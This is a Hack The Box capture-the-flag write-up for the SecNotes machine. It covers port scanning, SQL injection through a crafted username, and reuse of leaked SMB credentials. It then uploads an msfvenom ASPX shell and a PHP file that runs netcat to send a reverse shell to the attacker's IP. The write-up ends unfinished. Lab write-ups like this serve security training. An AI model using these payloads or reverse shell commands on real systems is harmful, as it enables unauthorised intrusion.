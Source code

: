 ```yaml
---
URL: https://app.hackthebox.com/machines/151
---
```

## Port Scan

The initial step is to enumerate the machine and identify which ports are opened and which services are running.

```bash
$ sudo nmap -sS -p- -Pn 10.10.10.97 --min-rate=5000 -oN all
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 08:57 AEST

Nmap scan report for 10.10.10.97
Host is up (0.34s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

$ sudo nmap -sC -sV 10.10.10.97 -p80,445,8808 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 09:11 AEST
Nmap scan report for 10.10.10.97
Host is up (0.33s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-07-10T16:12:46-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-07-10T23:12:43
|_  start_date: N/A
|_clock-skew: mean: 2h20m34s, deviation: 4h02m33s, median: 31s
```

One interesting point to note is that sometimes the namp scan will return with all 3 above ports as filtered. Which kind of hints us that there might be a firewall/AV running on the machine.

```bash
$ sudo nmap -sC -sV 10.10.10.97 -p80,445,8808 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-11 09:04 AEST
Nmap scan report for 10.10.10.97
Host is up.

PORT     STATE    SERVICE       VERSION
80/tcp   filtered http
445/tcp  filtered microsoft-ds
8808/tcp filtered ssports-bcast
```

Since we see there is a web server running on port 80, we can start from there.

## Website

We are greeted with the following page when we visit the website.

![[SecNotes_login.png]]

We can try multiple methods to check whether this is vulnerable to any attacks such as brute force, default credentials, SQLi, etc. However, we also see an interesting behaviour when we try to login with a random name.

![[SecNotes_username_leak.png]]

This indicates that this error message might leak information about whether a username exists or not. Also since there is a sign up option, we can first try to use it to create an account for the moment. 

### Gaining Access

Once we have created and account and visit the home page, we see the following.

![[SecNotes_homepage.png]]

There are two important bits of information we can gather from this page. 
1. There seems to be a user named **tyler** that might have elevated privileges 
2. The website displays notes for users probably by querying a db in the backend

### SQLi

Since there might be an SQL query running to fetch the data, we can try to inject this via our username. 

We try to create a user with the username `' or 1 or '` and the user account is successfully created. When we login as that user, we see the following information.

![[SecNotes_SQLi.png]]

It seems like the app is displaying all user notes available in the webserver. Within the notes we see an username and a password that seems to belong to as SMB share of tyler. 

Since we know SMB is up in this server from the port scan, we can try to login to SMB using this set of credentials.

## SMB Share

We use `smbclient` to connect to the share and it is successful.

```bash
$ smbclient -U tyler%'92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Aug 20 04:06:14 2018
  ..                                  D        0  Mon Aug 20 04:06:14 2018
  iisstart.htm                        A      696  Fri Jun 22 01:26:03 2018
  iisstart.png                        A    98757  Fri Jun 22 01:26:03 2018

                7736063 blocks of size 4096. 3394107 blocks available
```

From the directory listing, this looks like a default IIS site, and form our port scan we know there is an IIS server running on port `8808`. We can try to visit this port from the browser and see whether it is accessible to us.

![[SecNotes_IIS.png]]

### Upload Revshell

Since we have access to the server directory, we can upload a script using SMB to try to spawn a reverse shell to our machine.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=6666 -f aspx > manual.aspx        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2724 bytes

$ smbclient -U tyler%'92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put manual.aspx 
putting file manual.aspx as \manual.aspx (1.3 kb/s) (average 1.3 kb/s)
```

However, when we try to run the payload via the browser we get the following error.

![[SecNotes_msfvenom.png]]

This the payload we generated is not working (probably due to the AV intervening), we next try to gain a reverse shell using netcat and PHP. In order to do this we need to upload both a `nc.exe` and a php script. 

```bash
$ locate nc.exe   
/usr/share/windows-resources/binaries/nc.exe

$ cp /usr/share/windows-resources/binaries/nc.exe ./ 

$ cat rev.php                                                       
<?php
system('nc.exe -e cmd.exe 10.10.14.19 6666')
?>

$ smbclient -U tyler%'92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.

smb: \> put rev.php 
putting file rev.php as \rev.php (0.1 kb/s) (average 0.9 kb/s)
smb: \> put nc.exe 
putting file nc.exe as \nc.exe (21.0 kb/s) (average 10.5 kb/s)
smb: \> ls
  .                                   D        0  Fri Jul 11 10:14:40 2025
  ..                                  D        0  Fri Jul 11 10:14:40 2025
  iisstart.htm                        A      696  Fri Jun 22 01:26:03 2018
  iisstart.png                        A    98757  Fri Jun 22 01:26:03 2018
  manual.aspx                         A     2724  Fri Jul 11 10:13:55 2025
  nc.exe                              A    59392  Fri Jul 11 10:14:43 2025
  rev.php                             A       54  Fri Jul 11 10:14:36 2025
```

Now we need to start a listener on port 6666 and visit the `rev.php` resource.

```bash
$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.97] 49915
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami 
whoami
secnotes\tyler

C:\inetpub\new-site>systeminfo
systeminfo
ERROR: Access denied
```

Since `systeminfo` is denied, we can be pretty sure there is an AV running. If we check for Windows Defender, we see that it is indeed running..

```PowerShell
C:\inetpub\new-site> sc query windefend
sc query windefend

SERVICE_NAME: windefend 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Cant do the rest, the box keeps crashing.

```PowerShell
:\inetpub\new-site>where /R c:\windows bash.exe
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```


SecNotes
